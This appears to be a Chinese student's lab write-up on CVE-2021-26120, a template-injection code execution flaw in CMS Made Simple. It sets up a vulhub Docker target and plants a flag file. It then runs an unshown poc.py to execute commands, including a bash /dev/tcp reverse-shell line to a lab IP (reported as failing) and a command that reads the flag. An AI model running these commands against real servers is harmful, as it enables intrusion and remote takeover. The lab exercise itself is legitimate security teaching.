# CMS Made Simple (CMSMS) 前台代码执行漏洞

CVE-2021-26120


## 介绍

CMS Made Simple（CMSMS）是一个免费的开放源码内容管理系统，为开发人员、程序员和网站所有者提供基于网络的开发和管理功能。


## 漏洞成因

Smarty 3.1.39 之前的版本允许在 `{function name=` 子串后注入PHP代码，导致代码注入漏洞，该漏洞即为CVE-2021-26120。


CMS Made Simple 版本 <= 2.2.15，拥有设计师权限的用户可以在后台利用服务端模板注入漏洞，即为前面提到的CVE-2021-26120。


因此，如果CMSMS版本低于2.2.9.1，未授权的攻击者可以结合CVE-2019-9053和CVE-2021-26120漏洞，在服务器上执行任意代码。


## 环境部署

```
doucker-compose up -d
```




启动一个CMS Made Simple 2.2.9.1服务器

这里我运行的时候提示端口冲突




修改端口映射就可以了




```
docker-compose up -d
```

然后重新加载


作业要求（重载镜像写入flag）

```
FROM vulhub/cmsms:2.2.9.1
RUN echo "202235560316" > /tmp/flag
```




```
docker build -t  vulhub/cmsms:2.2.9.1 .
```


构建镜像


```
docker build -t  vulhub/cmsms:2.2.9.1 .
```



验证镜像


```
docker save -o cms.img vulhub/cmsms:2.2.9.1
```


保存镜像文件


```
docker-compose down
docker rm -f $(docker ps -a -q)
```

删除原有容器




装载镜像




```
version: '2'
services:
  web:
    image: vulhub/cmsms:2.2.9.1
    ports:
     - "8080:80"  # 修改为主机端口 8080，容器内仍为 80
    depends_on:
     - db
  db:
   image: mysql:5.7
   environment:
    - MYSQL_ROOT_PASSWORD=root
    - MYSQL_DATABASE=cmsms
```

修改配置文件中的image为重载后的镜像


```
docker-compose up -d
```



拉取镜像


```
docker run -it vulhub/cmsms:2.2.9.1 /bin/sh
cd /tmp
ls
cat flag
```



本地验证，构建成功


访问http://ip:8080/install.php并安装cms服务

根据向导进行，其中数据库地址为 db 数据库名为 cmsms 账号和密码均为root





设置管理员账户密码


然后这里还有问题，我重构完镜像之后，显示config文件丢失

我重新拉取了新的镜像，没有进行重构

然后我选择手动添加flag

```
docker run -it vulhub/cmsms:2.2.9.1 

/bin/sh
echo "202235560316" > /tmp/flag
cat /tmp/flag
```



然后安装上面的配置

重新拉取装载容器

```
docker-compose up -d
```




imstall之后正常访问后台




poc验证

```
python3 poc.py 127.0.0.1:80 / id
```



执行成功


尝试反弹shell

但是一直失败


然后验证主机中没有nc

```
python3 poc.py 192.168.23.134:80 / "which nc"
```




但是有bash

```
python3 poc.py 192.168.23.134:80 / "which bash"
```




但是尝试bash反弹shell一直失败

```
python3 poc.py 192.168.23.134:80 / "/bin/bash -i >& /dev/tcp/192.168.23.134/283 0>&1"
```




没办法，直接读取/tmp下的flag

```
python3 poc.py 192.168.23.134:80 / "cat /tmp/flag"
```

